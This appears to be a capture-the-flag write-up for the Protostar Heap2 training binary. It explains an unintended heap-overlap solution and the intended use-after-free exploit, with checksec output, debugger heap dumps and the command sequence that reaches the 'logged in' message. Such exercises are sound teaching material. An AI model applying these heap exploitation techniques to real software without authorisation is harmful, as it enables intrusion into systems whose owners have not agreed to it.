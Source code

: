 # Protostar - Heap2
This challenge is broken an has an unintended solution, the intended one is a Use After Free. The objective is to **print** the message *you have logged in already!*.

## Binary
### Code
Decompiled with Binary Ninja HLIL.

![](img/main_hlil.png)

### Security 
All the protections are enabled.

```shell
$ checksec ./heap2
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution
Overwrite **auth+0x20** with a value different than 0.

### Unintended
If we check the real code the author intended that the malloc for auth was of the size of the following struct.
```c
struct auth {
  char name[32];
  int auth;
};
```
But since the code is naming *auth* a lot of different variables the size used in malloc is 8 which is not intended.

So if we just do an *auth* command followed by a *service* command, the heap chunk for *service* will be at exactly *auth+0x20*.

#### Heap chunks
```shell
gef➤  dereference 0x55aa796c86c0-0x10
0x000055aa796c86b0│+0x0000: 0x0000000000000000
0x000055aa796c86b8│+0x0008: 0x0000000000000021      <-------auth chunk
0x000055aa796c86c0│+0x0010: 0x0000000a72657375 ("user\n"?)
0x000055aa796c86c8│+0x0018: 0x0000000000000000
0x000055aa796c86d0│+0x0020: 0x0000000000000000
0x000055aa796c86d8│+0x0028: 0x0000000000000021      <-------service chunk
0x000055aa796c86e0│+0x0030: "thing_after_service\n" <-------auth+0x20
0x000055aa796c86e8│+0x0038: "fter_service\n"
0x000055aa796c86f0│+0x0040: 0x0000000a65636976 ("vice\n"?)
0x000055aa796c86f8│+0x0048: 0x000000000001f911
```
If we now issue a *login* command we will get the message *you have logged in already!*

### Intended
If we patch the binary so now it uses the correct size for malloc we can see that the unintended solution does not work anymore.

#### Heap chunks unintended solution
```shell
gef➤  dereference 0x56347a8046c0-0x10 12
0x000056347a8046b0│+0x0000: 0x0000000000000000
0x000056347a8046b8│+0x0008: 0x0000000000000031      <-------auth chunk
0x000056347a8046c0│+0x0010: 0x0000000a72657375 ("user\n"?)
0x000056347a8046c8│+0x0018: 0x0000000000000000
0x000056347a8046d0│+0x0020: 0x0000000000000000
0x000056347a8046d8│+0x0028: 0x0000000000000000
0x000056347a8046e0│+0x0030: 0x0000000000000000      <-------auth+0x20
0x000056347a8046e8│+0x0038: 0x0000000000000021      <-------service chunk
0x000056347a8046f0│+0x0040: "thing_after_service\n"
0x000056347a8046f8│+0x0048: "fter_service\n"
0x000056347a804700│+0x0050: 0x0000000a65636976 ("vice\n"?)
0x000056347a804708│+0x0058: 0x000000000001f901
```
So what we have to do is issue an *auth* command and follow it with a *reset* command which will free the auth chunk.

After that we can issue a *service* command with an argument longer than 0x20 which will give us a chunk at the same address as the freed auth chunk.

Finally, since the *login* command is using the auth chunk after it has been freed and it now equals our service chunk. When it checks *auth+0x20* it's actually *service+0x20* which we control with our argument to the *service* command.

#### Heap chunks intended solution
```shell
gef➤  dereference 0x55f7561b66c0-0x10
0x000055f7561b66b0│+0x0000: 0x0000000000000000
0x000055f7561b66b8│+0x0008: 0x0000000000000031      <-------service chunk & freed auth chunk
0x000055f7561b66c0│+0x0010: "service_paddingAAAAAAAAAAAAAAAA\n"
0x000055f7561b66c8│+0x0018: "_paddingAAAAAAAAAAAAAAAA\n"
0x000055f7561b66d0│+0x0020: "AAAAAAAAAAAAAAAA\n"
0x000055f7561b66d8│+0x0028: "AAAAAAAA\n"
0x000055f7561b66e0│+0x0030: 0x000000000000000a      <-------auth+0x20
0x000055f7561b66e8│+0x0038: 0x000000000001f921
0x000055f7561b66f0│+0x0040: 0x0000000000000000
0x000055f7561b66f8│+0x0048: 0x0000000000000000
```
 So if we issue a *login* command we will get our desired message, *you have logged in already!*.